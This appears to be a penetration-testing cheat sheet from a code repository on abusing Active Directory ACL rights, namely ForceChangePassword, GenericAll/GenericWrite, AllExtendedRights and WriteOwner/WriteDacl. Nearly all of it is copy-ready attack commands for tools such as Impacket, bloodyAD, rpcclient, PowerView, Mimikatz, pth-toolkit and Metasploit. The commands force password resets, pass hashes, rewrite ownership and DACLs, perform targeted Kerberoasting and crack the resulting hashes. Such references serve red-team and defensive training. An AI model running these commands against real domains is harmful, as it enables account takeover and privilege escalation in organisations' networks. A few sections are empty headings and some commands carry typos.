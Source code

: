 # ACLs/ACEs permissions on User

### ForceChangePassword

#### 1) Net (Windows)

    net user TARGET_USER PASSWORD /domain (Windows)

#### 2) Net (Linux)

    net rpc password TARGET_USER PASSWORD -S DC_FQDN -U domain.local/USER1%'Password@1'
    
#### 3) Impacket

    impacket-changepasswd domain.local/TARGET_USER@DC_IP -newpass Password@1234 -altuser domain.local/USER1 -altpass Password@1 -reset

Impacket’s changepassword can also be used to change current user password, if current password is known.

    impacket-changepasswd domain.local/TARGET_USER@DC_IP -newpass ‘Password@987’ -p rpc-samr

#### 4) pth-toolkit (Run Net RPC commands using Pass-the-Hash)

    pth-net rpc password "TARGET_USER" -U domain.local/"USER1"%"64FBAE31CC352FC26AF97CBDEF151E03:"BD0F21ED526A885B378895679A412387" -S DC_IP

#### 5) Rpcclient

    rpcclient -U domain.local/USER1 DC_IP
    rpcclient $> setuserinfo TARGETUSER 23 Password@987

#### 6) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@987"

#### 7) ldap_shell (Change passwords over LDAP)

    ldap_shell domain.local/raj:Password@1 -dc-ip DC_IP
    change_password TARGET_USER Password@987

#### 8) Powerview

    powershell -ep bypass
    Import-Module .\PowerView.ps1
    $NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword


#### 9) Mimikatz

    lsadump::setntlm /server:domain.local /user:TARGET_USER /password:Password@9876

#### 10) Metasploit

    use auxiliary/admin/ldap/change_password
    set rhosts DC_IP
    set domain domain.local
    set username USER1
    set password Password@1
    set target_user TARGET_USER
    set new_password Password@7654
    run

### GenericAll / GenericWrite

#### 1) Windows net command

Change the password of a user

    net user USER PASSWORD /domain

#### 2) Linux Net RPC - Samba 

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP   

#### 3) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@9876"

#### 4) Rpcclient

    rpcclient -U domain.local/USER1 DC_IP
    rpcclient $> setuserinfo TARGET_USER 23 "Password@9876"

#### 5) Targeted Kerberoasting (add SPN)

    targetedKerberoast.py -d DOMAIN -u USER -p PASS (TGS Hash)

 ### Alternate method: Powerview

#### 1) Enumerate interesting ACLs with powerview

    Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "OUR_USER"} 

#### Then:

    Set-DomainObject -Identity TARGET_USER -SET @(serviceprincipalname='nonexistent/WHATEVER') (Powerview)

    Get-DomainSPNTicket -SPN nonexistent/WHATEVER (Powerview)

#### 6) Logon Script (Access)

#### 7) add Key Credentials (Shadow Credentials)

#### 8) Powerview

    $SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('domain.local\TARGET_USER', $SecPassword)

#### 9) Windows PowerShell

    $NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword

### AllExtendedRights

#### 1) Linux Net RPC - Samba

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP

#### 2) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@987"

#### 3) Rpcclient

    rpcclient -U domain.local/USER1 DC_IP
    rpcclient $> setuserinfo TARGET_USER 23 Ignite@987

#### 4) Powerview

    powershell -ep bypass
    Import-Module .\PowerView.ps1
    $NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword

### WriteOwner  /WriteDacl

#### 1) impacket-owneredit

Grant Ownership (owneredit), then assign Full Control (dacledit), then perform Kerberoasting or Password Change attacks (ForceChangePassword).

    impacket-owneredit -action write -new-owner 'USER1' -target-dn 'CN=TARGET_USER,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 2) impacket-dacledit

    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'USER1' -target-dn 'CN=TARGET_USER,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

Then, you can do targeted Kerberoasting for example

    python3 targetedKerberoast.py --dc-ip 'DC_IP' -v -d 'domain.local' -u 'USER1' -p 'Password@1'

Crack hash

    john -w=/usr/share/wordlists/rockyou.txt hash

OR you can change the TARGET_USER's password

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP

BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@987"

#### 3) Powerview

    powershell -ep bypass
    Import-Module .PowerView.ps1
    Set-DomainObjectOwner -Identity 'TARGET_USER' -OwnerIdentity 'USER1'
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "TARGET_USER" -PrincipalIdentity "USER1"

Now, do Kerberoast from a Windows Machine instead

    Set-DomainObject -Identity 'TARGET_USER' -Set @{serviceprincipalname='nonexistent/hacking'}
    Get-DomainUser 'TARGET_USER' | Select serviceprincipalname
    $User = Get-DomainUser 'TARGET_USER'
    $User | Get-DomainSPNTicket

OR change password

    $NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword

